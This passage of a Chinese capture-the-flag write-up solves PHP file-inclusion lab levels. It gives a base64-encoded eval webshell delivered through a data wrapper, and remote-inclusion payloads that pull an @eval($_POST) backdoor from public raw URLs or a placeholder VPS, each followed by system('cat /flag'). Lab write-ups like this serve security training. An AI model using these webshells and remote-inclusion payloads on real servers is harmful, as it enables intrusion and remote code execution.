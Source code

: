 A-Za-z0-9的形式很明显符合Base64标准编码表，所以该关卡使用Base64的输入形式进行Bypass即可,但是要注意，由于 = 和 + 被过滤，在输入Payload的时候要注意不要出现 + 以及即时删除 = 

> 根据base64解码规则和php中base64解码宽松性，= 在解码过程开始前会被移除，所以不会影响解码结果，但是+号作为码表的一部分移除会导致解码不正确，注意分别。

Payload: 

**GET**: `?wrappers=;base64,PD9waHAgZXZhbCgkX1BPU1RbJ2hlbGwnXSk7Pz4`, **POST**:`hell=system('cat /flag');`

### Level 4  http:// & https:// 协议

请先回顾引导区内容：

> http/https 协议 (https://www.php.net/manual/zh/wrappers.http.php) — 常规 URL 形式，允许通过 HTTP 1.0 的 GET方法，以只读访问文件或资源，通常用于远程包含。
>
> 注意远程文件需要为可读的文本形式。
>
> 依赖：allow_url_fopen:On;allow_url_include:On;

由于本题提供了现成的文本后门，只需要考虑如何用http去包含即可 —— 127.0.0.1 就行。

当然已经用上了http协议，本关也可以自行包含其他远端上的PHP代码：

> ```php
> <?php @eval($_POST['a']); ?>
> ```
>
> https://raw.githubusercontent.com/ProbiusOfficial/PHPinclude-labs/main/RFI
>
> https://gitee.com/Probius/PHPinclude-labs/raw/main/RFI

如果您有自己的vps也可以包含一个开放在web服务的文本文件：

> http://xxx.xxx.xxx.xxx/x.txt
>
> http://domain.xxx/x.txt

本题解法：**GET**:`?wrappers=127.0.0.1/backdoor.txt` **POST**:`ctf=system('cat /flag');`

### Level 5  http:// & https:// 协议_2

直接访问 challenge.txt ：

> <?php isset($_GET['Key'])&& 1==2 ? echo "<?= system('tac flag.???');?>" : die('Access Denied');?>

1==2 才能执行很明显不行（，本题使用远端包含：

> ```php
> <?php @eval($_POST['a']); ?>
> ```
>
> https://raw.githubusercontent.com/ProbiusOfficial/PHPinclude-labs/main/RFI
>
> https://gitee.com/Probius/PHPinclude-labs/raw/main/RFI

本题解法：**GET**:`?wrappers=raw.githubusercontent.com/ProbiusOfficial/PHPinclude-labs/main/RFI` **POST**:`a=system('cat /flag');`

